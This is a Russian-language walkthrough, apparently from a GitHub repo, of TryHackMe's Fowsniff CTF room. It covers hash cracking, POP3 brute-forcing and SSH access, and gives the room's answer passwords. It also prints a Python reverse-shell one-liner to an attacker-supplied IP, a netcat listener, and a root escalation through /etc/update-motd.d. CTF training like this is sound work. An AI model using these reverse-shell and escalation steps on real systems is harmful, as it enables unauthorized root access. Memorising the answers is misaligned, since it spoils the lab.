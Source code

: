 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Fowsniff CTF](https://tryhackme.com/r/room/ctf) 

Всего 1 заданиe:
## Задание 1
Эта машина boot2root великолепна для новичков. Вам придется перечислить эту машину, найдя открытые порты, провести 
некоторые онлайн-исследования (удивительно, сколько информации может найти для вас Google), расшифровать хэши, 
перебрать вход в систему pop3 и многое другое!

Это будет структурировано, чтобы пройти через то, что вам нужно сделать, шаг за шагом. Убедитесь, что вы подключены 
к нашей сети 

Спасибо berzerk0  за создание этой машины. Эта машина используется здесь с явного разрешения создателя <3 

### Ответьте на вопросы ниже
Разверните машину. В правом верхнем углу вы увидите кнопку «Развернуть» . Нажмите на нее, чтобы развернуть машину в 
облаке. Подождите минуту, пока она не станет активной. 
```commandline
Ответ не нужен
```
Используя nmap, просканируйте эту машину. Какие порты открыты?
```commandline
Ответ не нужен
```
Используя информацию из открытых портов. Осмотритесь. Что вы можете найти?
```commandline
Ответ не нужен
```
Можете ли вы с помощью Google найти какую-либо публичную информацию о них?
```commandline
Ответ не нужен
```
Можете ли вы расшифровать эти md5 хеши? Вы даже можете использовать сайты типа hashkiller , чтобы расшифровать их.
```commandline
Ответ не нужен
```
Используя полученные вами имена пользователей и пароли, можете ли вы применить Metasploit для взлома пароля pop3?
```commandline
Ответ не нужен
```
Какой пароль у seina для доступа к почтовому сервису?


```commandline
scoobydoo2
```
Можете ли вы подключиться к службе pop3 с ее учетными данными? Какую информацию об электронной почте вы можете собрать?
```commandline
Ответ не нужен
```
Просматривая ее электронную почту, какой временный пароль был установлен для нее?


```commandline
S1ck3nBluff+secureshell
```
В электронном письме, кто его отправил? Используя пароль из предыдущего вопроса и имя пользователя отправителя, подключитесь к машине с помощью SSH.
```commandline
Ответ не нужен
```
После подключения, к каким группам принадлежит этот пользователь? Есть ли какие-нибудь интересные файлы, которые может запустить эта группа?
```commandline
Ответ не нужен
```
Теперь, когда вы нашли файл, который может редактировать группа, можете ли вы отредактировать его, включив в него обратную оболочку?

Обратная оболочка Python:

python3 -c 'импорт сокета, подпроцесса, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((<IP>,1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

Другие обратные оболочки: здесь .
```commandline
Ответ не нужен
```
Если вы еще не узнали, этот файл запускается как root, когда пользователь подключается к машине с помощью SSH. Мы знаем это, поскольку при первом подключении мы видим, что нам выдается баннер (с fowsniff corp). Посмотрите в  файле /etc/update-motd.d/ . Если (после того, как мы поместили нашу обратную оболочку в файл cube) мы затем включим этот файл в файл motd.d, он запустится как root, и мы получим обратную оболочку как root!
```commandline
Ответ не нужен
```
Запустите прослушиватель netcat (nc -lvp 1234) и затем повторно войдите в службу SSH. Затем вы получите обратную оболочку в вашем сеансе netcat как root!
```commandline
Ответ не нужен
```
Если вы действительно застряли, вот блестящее пошаговое руководство:  https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

Если вам так проще, следуйте этому пошаговому руководству, разместив машину на объекте.
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)